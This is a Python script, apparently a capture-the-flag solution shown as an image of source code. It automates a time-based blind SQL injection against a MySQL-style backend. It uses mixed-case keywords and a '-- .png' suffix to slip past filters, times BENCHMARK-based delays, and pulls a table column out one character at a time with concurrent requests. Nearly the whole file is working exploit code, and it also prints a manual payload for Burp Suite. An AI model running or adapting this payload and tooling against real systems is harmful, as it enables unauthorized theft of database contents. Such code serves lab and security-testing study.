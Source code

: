 ```py
                    return elapsed
            except (aiohttp.ClientError, asyncio.TimeoutError) as e:
                if attempt < RETRY_ATTEMPTS:
                    logger.warning(f"Retry {attempt + 1}/{RETRY_ATTEMPTS} for payload '{payload[:50]}...': {e}")
                    await asyncio.sleep(0.5)
                    continue
                logger.error(f"Failed for payload '{payload[:50]}...': {e}")
                return 0

async def check_character(session, pos, char, semaphore):
    payload = (
        f"sELECT CAsE WHEN MID((sELECT {COLUMN} FROM {TABLE} LIMIT 0,1),{pos},1)='{char}' "
        f"THEN BENCHMArK({BENCHMARK_ITERATIONS},MD5(1)) ELSE 0 END-- .png"
    )
    elapsed = await check_payload(session, payload, semaphore)
    return char, elapsed > DELAY_THRESHOLD

async def extract_flag(session, semaphore):
    flag_value = ""
    for pos in range(1, MAX_LEN + 1):
        logger.info(f"Checking position {pos} for flag value")
        tasks = [check_character(session, pos, c, semaphore) for c in charset]
        results = await asyncio.gather(*tasks, return_exceptions=True)
        found = False
        for result in results:
            if isinstance(result, Exception):
                logger.error(f"Exception at pos {pos}: {result}")
                continue
            char, success = result
            if success:
                flag_value += char
                sys.stdout.write(char)
                sys.stdout.flush()
                print(f"\n[+] Current flag: '{flag_value}'")
                found = True
                break
        if not found:
            break
    return flag_value if flag_value else None

async def main():
    print(f"[*] Extracting value from column '{COLUMN}' in table '{TABLE}'...")
    semaphore = asyncio.Semaphore(CONCURRENT_LIMIT)

    async with aiohttp.ClientSession() as session:
        flag_value = await extract_flag(session, semaphore)
        if flag_value:
            print(f"\n[+] Found flag: '{flag_value}'")
        else:
            print("\n[!] No value extracted. Check logs for response times or test manually in Burp Suite:")
            print(f"sELECT CAsE WHEN MID((sELECT {COLUMN} FROM {TABLE} LIMIT 0,1),1,1)='f' "
                  f"THEN BENCHMArK({BENCHMARK_ITERATIONS},MD5(1)) ELSE 0 END-- .png")

if __name__ == "__main__":
    try:
        asyncio.run(main())
    except Exception as e:
        logger.error(f"Main loop failed: {e}")
        print(f"\n[!] Error: Failed to extract value due to {e}. Check logs for details.")

```